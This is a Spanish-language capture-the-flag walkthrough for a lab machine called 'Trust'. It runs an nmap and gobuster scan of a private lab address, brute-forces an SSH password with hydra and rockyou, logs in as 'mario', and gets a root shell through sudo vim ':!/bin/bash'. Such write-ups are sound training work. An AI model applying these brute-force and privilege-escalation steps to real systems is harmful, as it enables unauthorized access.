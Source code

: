 Maquina: Trust

Autor: El Pinguino de Mario 

Dificultad: Muy Facil

![Screenshot 2024-11-09 080125](https://github.com/user-attachments/assets/f6c194b6-faf6-48a8-ae52-83426b55cdce)

ping 172.18.0.2 -c 1

![Screenshot 2024-11-09 080415](https://github.com/user-attachments/assets/8c0efa30-9efc-465d-8fc7-287bf60032ae)

sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.18.0.2 -oN puertos

![Screenshot 2024-11-09 080603](https://github.com/user-attachments/assets/d8be8fd1-4573-45d5-8638-d2b3d1063a98)

sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u 'http://172.18.0.2/' -x .php,.sh,.py,.txt

![Screenshot 2024-11-09 082414](https://github.com/user-attachments/assets/254f0d83-03ef-411d-b8bc-13e9720a5956)

buscamos en el archivo encontrado y descubrimos el nombre de un usuario

![Screenshot 2024-11-09 081917](https://github.com/user-attachments/assets/179b4806-2761-4ada-ba1f-6f3412a80dde)

utilizamos hydra para conseguir la contraseña
hydra -l mario -P /usr/share/wordlists/rockyou.txt.gz ssh://172.18.0.2

![Screenshot 2024-11-09 082000](https://github.com/user-attachments/assets/94cf95bf-4cfc-431b-9a44-aa17118d1e6d)

entramos por ssh con la contraseña encontrada
ssh mario@172.18.0.2

![Screenshot 2024-11-09 082028](https://github.com/user-attachments/assets/ad4cec13-962b-4552-ac9e-2d07db6a0632)

sudo -l
descubrimos que podemos ejecutar el comando vim
sudo -u root /usr/bin/vim

:!/bin/bash

whoami

![Screenshot 2024-11-09 082127](https://github.com/user-attachments/assets/e676f853-c17e-4ebd-a807-ca4e61a7eda8)
